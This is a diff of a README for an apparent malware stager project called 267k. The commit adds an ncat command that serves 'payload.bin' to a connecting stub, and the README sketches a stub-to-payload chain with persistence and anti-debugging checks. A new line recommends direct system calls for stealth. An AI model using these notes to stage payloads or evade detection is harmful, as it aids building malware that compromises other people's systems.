

Before and after one commit to Connduit/267k, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page.

```diff
--- a/README.md
+++ b/README.md
@@ -4,7 +4,7 @@ tcp stub
 ### Commands
 - g++ stub.cpp -o stub
 - x86_64-w64-mingw32-g++ stub_win.cpp -o stub_win.exe -lws2_32
-- server: printf "fart" | ncat -l 4444
+- server: ncat -lvp 4444 --send-only < payload.bin
 - client: run executable
 
 ### Concepts
@@ -66,7 +66,7 @@ stub -> payload (establish persistence) -> full install -> profit?
 - check for debugger
   - https://learn.microsoft.com/en-us/windows/win32/debug/debugging-functions
   - https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent
--
+- use a combination of manual api resolution and direct system calls (direct system calls are stealthier)
 
 # Windows
 - workflow
```
